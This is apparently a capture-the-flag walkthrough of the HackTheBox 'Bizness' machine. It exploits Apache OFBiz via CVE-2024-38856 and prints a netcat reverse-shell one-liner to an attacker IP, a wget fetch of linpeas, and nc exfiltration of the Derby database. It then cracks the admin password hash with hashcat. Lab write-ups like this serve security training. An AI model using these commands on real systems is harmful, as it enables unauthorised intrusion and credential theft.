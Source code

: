 # Bizness - Easy

```sh
sudo vim /etc/hosts
# map bizness.htb to IP

nmap -T4 -p- -A -Pn -v bizness.htb
```

* Open ports & services:

    * 22/tcp - ssh - OpenSSH 8.4p1 Debian 5+deb11u3
    * 80/tcp - http - nginx 1.18.0
    * 443/tcp - ssl/http - nginx 1.18.0
    * 35911/tcp - tcpwrapped

* Navigating to the webpage on port 80 redirects to the HTTPS page (port 443) - it is for 'BizNess Incorporated'; we can start our web scan simultaneously

* The webpage does not contain any useful info; we have an email 'info@bizness.htb' and the footer source code mentions 'powered by Apache OFBiz'

* Web enumeration:

    ```sh
    # directory scanning
    feroxbuster -u https://bizness.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,bak,bac,md,jpg,png,ps1,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent -k
    # -k to disable TLS cert validation
    ```

* From our web scan, one page that stands out is '/control' - this mentions the following error for Apache OfBiz - "org.apache.ofbiz.webapp.control.RequestHandlerException: Unknown request [null]; this request does not exist or cannot be called directly."

* We can try enumerating for the version of Apache OfBiz but the page does not mention it; so we can attempt searching and trying recent vulnerabilities for Apache OfBiz and check if that leads anywhere

* Googling 'apache ofbiz exploits' gives us several vulnerabilities - with several hits for [CVE-2024-45195, unauthenticated RCE](https://www.rapid7.com/blog/post/2024/09/05/cve-2024-45195-apache-ofbiz-unauthenticated-remote-code-execution-fixed/)

* The blog mentions the pages '/control/forgotPassword', '/webtools' and '/control/login' as part of Apache OfBiz installations - we can check if this works in our case

* Navigating to <https://bizness.htb/control/forgotPassword>, we get a page for 'Forgot Your Password'; more importantly, the OFBiz release 18.12 is mentioned in footer; similarly we have login page at '/control/login' as well as '/webtools/control/checkLogin'

* Searching for exploits associated with this version, we get a [CVE-2024-38856 Scanner & Exploit tool](https://github.com/securelayer7/CVE-2024-38856_Scanner) - we can give this a try:

    ```sh
    git clone https://github.com/securelayer7/CVE-2024-38856_Scanner.git

    cd CVE-2024-38856_Scanner

    python3 cve-2024-38856_Scanner.py -t "https://bizness.htb" -p 443 -c "whoami" --exploit
    # this works, and we can see the username 'ofbiz'

    # setup a listener
    nc -nvlp 4444

    # use reverse shell bash command
    python3 cve-2024-38856_Scanner.py -t "https://bizness.htb" -p 443 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f" --exploit
    ```

* We get a reverse shell - we can enumerate for privesc now:

    ```sh
    # stabilize shell first
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm
    # press Ctrl+Z to background shell
    stty raw -echo; fg
    # press Enter twice to foreground shell

    ls -la /

    ls -la /home
    # we have only 'ofbiz' user

    ls -la /home/ofbiz
    # get user flag

    # we can try enumeration using linpeas.sh

    # on attacker
    python3 -m http.server

    # in reverse shell
    wget http://10.10.14.18:8000/linpeas.sh
    chmod +x linpeas.sh
    ./linpeas.sh
    ```

* ```linpeas``` shows that the '.service' file  ```/etc/systemd/system/multi-user.target.wants/ofbiz.service``` is calling this writable executable: ```/opt/ofbiz/gradlew```

* We can write to this executable but the issue is that for it to take effect we need sudo rights for this service; we can continue checking for any other privesc vectors

* As OfBiz is a webapp, there could be stored creds in the database; Google shows OfBiz uses an embedded Java database called ```Derby``` by default

* We can confirm this by using the official Apache Ofbiz docs - ```grep derby /opt/ofbiz/framework/entity/config/entityengine.xml``` - we can see it is used as the datasource

* [Apache Derby docs from the developer's guide](https://db.apache.org/derby/docs/10.0/manuals/develop/develop13.html) shows the Derby database directory contains the following:

    * 'log' directory
    * 'seg0' directory
    * 'service.properties' file
    * 'tmp' directory (might not exist)
    * 'jar' directory (might not exist)

* Knowing this, we can search for this exact directory:

    ```sh
    cd /opt/ofbiz

    find . -type d -name *seg0*
    # we get 3 possible locations, under the same parent folder

    cd /opt/ofbiz/runtime/data
    # we can inspect these files further in attacker machine

    ls -la
    
    # compress the 'derby' folder into a file
    tar -czf /tmp/derby.tar.gz derby

    # transfer this file to attacker using nc

    # on attacker
    nc -nvlp 4445 > derby.tar.gz

    # in reverse shell
    /bin/nc 10.10.14.18 4445 -w 3 < /tmp/derby.tar.gz
    # check if file has been copied properly using md5sum
    ```

* We can interact with Derby DB using a SQL scripting tool called ```ij``` - [this is also included in Apache Derby docs](https://db.apache.org/derby/papers/DerbyTut/ij_intro.html):

    ```sh
    # on attacker machine
    tar -xzf derby.tar.gz

    ls

    # we need to install ij
    sudo apt install derby-tools

    which ij

    # we have 3 directories - ofbiz, ofbizolap, and ofbizotenant - in our DB
    # we can try each of them and check for any stored creds

    ij

    connect 'jdbc:derby:ofbiz';
    # from the guide, to connect to 'ofbiz' DB

    # we are able to connect
    show tables;
    # too many tables
    # we can check for any user or password-related tables

    select * from USER_LOGIN;
    # this command does not work

    describe OFBIZ.USER_LOGIN;
    # this shows all columns
    # includes password as column, so we can check here

    select USER_LOGIN_ID,CURRENT_PASSWORD,PASSWORD_HINT from OFBIZ.USER_LOGIN;
    # this works
    # we get a hash for 'admin' user
    ```

* The 'current_password' column for 'admin' includes a SHA hash "$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" - but the actual format is not identified by hash identifier tools

* Hashes are usually based on hex or base64 charset, and the '$' acts as a delimiter between identifier (optional), salt and password; in our case, 'd' between the two '$' signs is the salt, and the part after that is the actual password

* Googling for the exact algorithm used by Apache Derby shows that it uses SHA1 by default, so the above hash is a SHA1 hash

* SHA1 hash is 40 characters in length, which explains the incorrect format

* Checking the hash further on CyberChef, we can see that the latter part of the hash - the actual password "uP0_QaVBpDWFeo8-dRzDqRwXQ2I" - can be converted to a hex charset. This can be done by first converting from base64 (select the charset "A-Za-z0-9-_" as other charsets which include characters not used in the string give incorrect results), and then convert to hex (no delimiter)

* This makes it 40 characters in length - "b8fd3f41a541a435857a8f3e751cc3a91c174362" - which is now a valid SHA1 hash length

* As we have not considered the salt from the original format of the hash, we need to consider it while cracking. ```hashcat``` follows the format "hash:salt":

    ```sh
    vim sha1hash.txt
    # paste the hash in 'hash:salt' format
    # where our hash is the 40 character hex string, and salt is 'd'

    hashcat sha1hash.txt
    # detect hash type
    # this matches several hash-modes, but we only have salt and pass to consider
    # it could be either mode '110' - 'sha1($pass.$salt)'
    # or mode '120' - 'sha1($salt.$pass)'

    hashcat -a 0 -m 110 sha1hash.txt /usr/share/wordlists/rockyou.txt
    # this does not work

    hashcat -a 0 -m 120 sha1hash.txt /usr/share/wordlists/rockyou.txt
    # this works
    # we get the password 'monkeybizness'
    ```

* Using the cracked password, we can try password reuse on the target machine:

    ```sh
    # back in reverse shell
    su ofbiz
    # does not work

    su root
    # the password works for 'root'

    cat /root/root.txt
    ```
